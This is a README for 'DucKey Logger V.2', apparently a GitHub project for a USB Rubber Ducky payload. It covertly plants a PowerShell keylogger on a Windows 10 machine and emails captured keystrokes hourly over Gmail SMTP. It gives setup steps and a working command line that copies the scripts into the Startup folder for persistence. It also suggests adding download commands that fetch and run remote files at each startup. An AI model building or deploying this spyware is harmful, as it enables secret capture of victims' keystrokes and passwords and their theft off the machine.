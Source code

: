 # DucKey Logger V.2 
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   :::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    
#########   ########   ########  ###    ### ##########    ###     
```

## Update:
logs can now be sent every hour

## Overview:
```
DucKey Logger is a USB RubberDucky payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video](https://youtu.be/K0g0RHSUofw)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 20 of *payload.txt*, change 'L' to the name of your ducky [SD Card]
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
3. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
4. load, encode, and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
